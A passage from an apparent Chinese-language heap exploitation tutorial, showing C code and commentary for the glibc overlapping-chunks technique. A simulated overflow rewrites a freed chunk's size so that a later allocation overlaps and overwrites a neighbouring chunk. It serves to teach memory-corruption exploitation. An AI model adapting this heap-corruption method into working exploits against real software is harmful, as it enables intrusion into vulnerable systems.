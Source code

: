  ```c
   fprintf(stderr, "\nchunk p1 从 %p 到 %p", p1, (unsigned char *)p1+malloc_usable_size(p1));
   fprintf(stderr, "\nchunk p2 从 %p 到 %p", p2,  (unsigned char *)p2+malloc_usable_size(p2));
   fprintf(stderr, "\nchunk p3 从 %p 到 %p", p3,  (unsigned char *)p3+malloc_usable_size(p3));
   fprintf(stderr, "\nchunk p4 从 %p 到 %p", p4, (unsigned char *)p4+malloc_usable_size(p4));
   fprintf(stderr, "\nchunk p5 从 %p 到 %p\n", p5,  (unsigned char *)p5+malloc_usable_size(p5));
 
   memset(p1,'A',real_size_p1);
   memset(p2,'B',real_size_p2);
   memset(p3,'C',real_size_p3);
   memset(p4,'D',real_size_p4);
   memset(p5,'E',real_size_p5);
   
   fprintf(stderr, "\n释放掉堆块 p4，在这种情况下不会用 top chunk 合并\n");
   free(p4);
 
   fprintf(stderr, "\n假设 p1 上的漏洞，该漏洞会把 p2 的 size 改成 p2+p3 的 size\n");
   *(unsigned int *)((unsigned char *)p1 + real_size_p1 ) = real_size_p2 + real_size_p3 + prev_in_use + sizeof(size_t) * 2;
   fprintf(stderr, "\nfree p2 的时候分配器会因为 p2+p2.size 的结果指向 p4，而误以为下一个 chunk 是 p4\n");
   fprintf(stderr, "\n这样的话将会 free 掉的 p2 将会包含 p3\n");
   free(p2);
   
   fprintf(stderr, "\n现在去申请 2000 大小的 chunk p6 的时候，会把之前释放掉的 p2 与 p3 一块申请回来\n");
   p6 = malloc(2000);
   real_size_p6 = malloc_usable_size(p6);
 
   fprintf(stderr, "\nchunk p6 从 %p 到 %p", p6,  (unsigned char *)p6+real_size_p6);
   fprintf(stderr, "\nchunk p3 从 %p 到 %p\n", p3, (unsigned char *) p3+real_size_p3);
 
   fprintf(stderr, "\np3 中的内容: \n\n");
   fprintf(stderr, "%s\n",(char *)p3);
 
   fprintf(stderr, "\n往 p6 中写入\"F\"\n");
   memset(p6,'F',1500);
 
   fprintf(stderr, "\np3 中的内容: \n\n");
   fprintf(stderr, "%s\n",(char *)p3);
 }
 ```

​    我们需要五个堆块，假设第chunk 1存在溢出，可以改写第二个chunk 2的数据，chunk 5的作用是防止释放chunk 4后,被合并进top chunk。所以我们要重叠的区域是chunk 2到chunk 4。

   首先申请5个chunk，分别是p1，p2，p3，p4，p5。
